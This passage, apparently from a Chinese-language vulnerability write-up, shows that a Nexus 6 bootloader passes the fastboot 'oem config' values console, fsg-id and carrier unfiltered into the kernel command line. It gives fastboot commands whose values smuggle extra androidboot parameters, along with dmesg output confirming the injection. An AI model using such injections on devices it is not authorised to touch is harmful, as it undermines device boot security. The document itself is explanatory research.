 fsg-id、carrier以及console这三个参数可以包含任意值（虽然参数的大小受到限制），这三个参数最终会被传递到内核命令行。我们可以使用以下命令来验证这个漏洞：



```
$ fastboot oem config console foo
$ fastboot oem config fsg-id bar
$ fastboot oem config carrier baz
```

然后检查内核命令行：



```
shamu:/ $ dmesg | grep command
[    0.000000] Kernel command line: console=foo,115200,n8 earlyprintk 
androidboot.console=foo androidboot.hardware=shamu msm_rtb.filter=0x37
ehci-hcd.park=3 utags.blkdev=/dev/block/platform/msm_sdcc.1/by-name/utags
utags.backup=/dev/block/platform/msm_sdcc.1/by-name/utagsBackup coherent_pool=8M
vmalloc=300M buildvariant=user androidboot.bootdevice=msm_sdcc.1 androidboot.serialno=ZX1G427V97
androidboot.baseband=mdm androidboot.version-baseband=D4.01-9625-05.45+FSG-9625-02.117
androidboot.mode=normal androidboot.device=shamu androidboot.hwrev=0x83A0
androidboot.radio=0x7 androidboot.powerup_reason=0x00004000 androidboot.bootreason=reboot
androidboot.write_protect=0 restart.download_mode=0 androidboot.fsg-id=bar
androidboot.secure_hardware=1 androidboot.cid=0xDE androidboot.wifimacaddr=F8:CF:C5:9F:8F:EB
androidboot.btmacaddr=F8:CF:C5:9F:8F:EA mdss_mdp.panel=1:dsi:0:qcom,mdss_dsi_mot_smd_596_QHD_dualmipi0_cmd_v0
androidboot.bootloader=moto-apq8084-72.02 androidboot.carrier=baz androidboot.hard&lt;
```

现在，如果bootloader没有对这些参数进行过滤处理，那么我们就能传递任意内核内核命令行参数：



```
$ fastboot oem config console "a androidboot.foo=0 "
$ fastboot oem config fsg-id "a androidboot.bar=1"
$ fastboot oem config carrier "a androidboot.baz=2"
```

结果的确如此：



```
shamu:/ $ dmesg | grep command
[    0.000000] Kernel command line: console=a androidboot.foo=0 ,115200,n8 earlyprintk 
androidboot.console=a androidboot.foo=0  androidboot.hardware=shamu msm_rtb.filter=0x37
ehci-hcd.park=3 utags.blkdev=/dev/block/platform/msm_sdcc.1/by-name/utags
utags.backup=/dev/block/platform/msm_sdcc.1/by-name/utagsBackup coherent_pool=8M
vmalloc=300M buildvariant=user androidboot.bootdevice=msm_sdcc.1 androidboot.serialno=ZX1G427V97
androidboot.baseband=mdm androidboot.version-baseband=D4.01-9625-05.45+FSG-9625-02.117
androidboot.mode=normal androidboot.device=shamu androidboot.hwrev=0x83A0
androidboot.radio=0x7 androidboot.powerup_reason=0x00004000 androidboot.bootreason=reboot
androidboot.write_protect=0 restart.download_mode=0 androidboot.fsg-id=a androidboot.bar=1
androidboot.secure_hardware=1 androidboot.cid=0xDE androidboot.wifimacaddr=F8:CF:C5:9F:8F:EB
androidboot.btmacaddr=F8:CF:C5:9F:8F:EA mdss_mdp.panel=1:dsi:0:qcom,mdss_dsi_mot_smd_596_QHD_dualmipi0_cmd_v0
androidboot.bootloader=moto-apq8084-72.02 androidboot.carrier=a androidboot.baz=2 androidboot.hard&lt;
```
